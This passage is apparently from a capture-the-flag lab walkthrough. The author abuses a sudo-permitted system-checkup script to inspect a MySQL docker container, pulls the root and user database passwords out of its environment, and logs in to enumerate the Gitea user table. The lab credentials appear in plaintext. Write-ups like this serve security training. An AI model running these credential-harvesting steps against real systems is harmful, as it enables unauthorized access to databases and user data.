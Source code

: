 So we need to learn a little bit about docker. So lets see the running containers. 

```

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 2 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 2 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

```

The interesting container here is the mysql database. When reading a little bit here - https://docs.docker.com/engine/reference/commandline/inspect/ I found a format thats great to provide us the information we need for that db.

```

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a6b33fb5a | jq

"Env": [
    "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
    "MYSQL_USER=gitea",
    "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
    "MYSQL_DATABASE=gitea",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "GOSU_VERSION=1.14",
    "MYSQL_MAJOR=8.0",
    "MYSQL_VERSION=8.0.31-1.el8",
    "MYSQL_SHELL_VERSION=8.0.31-1.el8"
  ]

```

great so this is interesting we got usernames, passwords and all that so lets try and connect.

```

svc@busqueda:~$ mysql -h 127.0.0.1 -u root -p
Enter password: jI86kGUuj87guWr3RyF

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> use gitea;
mysql> show TABLES;
...
| user                      |
...

mysql> DESCRIBE user;
+--------------------------------+---------------+------+-----+---------+----------------+
| Field                          | Type          | Null | Key | Default | Extra          |
...
| name                           | varchar(255)  | NO   | UNI | NULL    |                |
...
```